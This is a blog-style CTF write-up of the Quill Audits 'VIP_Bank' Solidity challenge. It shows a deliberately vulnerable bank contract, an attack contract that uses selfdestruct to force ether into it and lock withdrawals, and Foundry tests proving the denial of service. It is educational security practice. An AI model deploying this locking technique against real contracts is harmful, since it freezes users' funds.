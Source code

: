 ```yaml
---
date: 2023-04-13T12:09:20-04:00
draft: false
tags: [CTF]
title: "Day06 - VIP_Bank"
---
```


Recently I discovered on Twitter [this](https://academy.quillaudits.com/challenges) challenges page from Quill Audits, and I decided to give it a try.

I started with the VIPBank challenge, which is a smart contract that allows you to deposit and withdraw funds from it. The challenge consists on locking the contract, aka DoS attack.

# The contract

```javascript
pragma solidity 0.8.7;

contract VIP_Bank{

    address public manager;
    mapping(address => uint) public balances;
    mapping(address => bool) public VIP;
    uint public maxETH = 0.5 ether;

    constructor() {
        manager = msg.sender;
    }

    modifier onlyManager() {
        require(msg.sender == manager , "you are not manager");
        _;
    }

    modifier onlyVIP() {
        require(VIP[msg.sender] == true, "you are not our VIP customer");
        _;
    }

    function addVIP(address addr) public onlyManager {
        VIP[addr] = true;
    }

    function deposit() public payable onlyVIP {
        require(msg.value <= 0.05 ether, "Cannot deposit more than 0.05 ETH per transaction");
        balances[msg.sender] += msg.value;
    }

    function withdraw(uint _amount) public onlyVIP {
        require(address(this).balance <= maxETH, "Cannot withdraw more than 0.5 ETH per transaction");
        require(balances[msg.sender] >= _amount, "Not enough ether");
        balances[msg.sender] -= _amount;
        (bool success,) = payable(msg.sender).call{value: _amount}("");
        require(success, "Withdraw Failed!");
    }

    function contractBalance() public view returns (uint){
        return address(this).balance;
    }

}
```

# The attack

DoS attacks *(at least the ones I've seen for now)* are always based in the same principle, which is using the `selfdestruct()` method on an attack contract, which will force send all the funds to the victim contract even though this one won't accept incoming funds.

In this case, just by sending more than `maxETH` to the `VIP_Bank` contract, we will be able to lock it.

```javascript
pragma solidity 0.8.7;

contract Hack {
    constructor() {}

    receive() external payable {}

    function hack(address _Bank) public {
        selfdestruct(payable(_Bank));
    }
}
```

# POC

This is really the meat of this challenge for me, as I want to practice using the `foundry` framework.

We will write some tests that will prove that the `VIP_Bank` contract is in fact working properly and also show that once we use our `Hack` contract to perform the DoS attack, the contract will be locked.

### Tests initial setup

Pretty standard stuff when using `foundry`, we create a new instance of the `VIP_Bank` contract and the `Hack` contract and use the `setUp()` function which is called before each test.

```javascript
pragma solidity 0.8.7;

import "../src/VIPBank.sol";
import "../src/Hack.sol";

import "forge-std/Test.sol";

contract TestVIPBank is Test {
    VIP_Bank public vipBank;
    Hack public hack;

    function setUp() public {
        vipBank = new VIP_Bank();
        hack = new Hack();
    }
```

### Test correct functionality

This is the test that will ensure that the contract is functional and does what it is suposed to do.

```javascript
function test_canWithdraw() public {
    vipBank.addVIP(address(1));
    vm.deal(address(1), 0.1 ether);

    vm.startPrank(address(1));
    vipBank.deposit{value: 0.05 ether}();
    vipBank.withdraw(0.05 ether);
    vm.stopPrank();
}
```

### Test DoS attack

And this one will show that the contract is locked after we call our `Hack` contract.

```javascript
function testFail_cannnotWithdraw() public {
    vipBank.addVIP(address(1));
    vm.deal(address(hack), 0.1 ether);
    vm.deal(address(1), 0.6 ether);

    vm.startPrank(address(1));
    for (uint256 i = 0; i < 10; i++) {
        vipBank.deposit{value: 0.05 ether}();
    }
    hack.hack(address(vipBank));
    vipBank.withdraw(0.05 ether);
    vm.stopPrank();
}
```
Ideally we should simulate this test without giving `address(1)` VIP status, but it doesn't really matter, anyone could run the `hack()` function on the `Attack` contract.

## Wrapping up

As I'm still learning `foundry` this is the way I found to do it, but I'm sure there is a better way, if you know it, please let me know by hitting a DM [@mariodev__](https://twitter.com/mariodev__) on Twitter.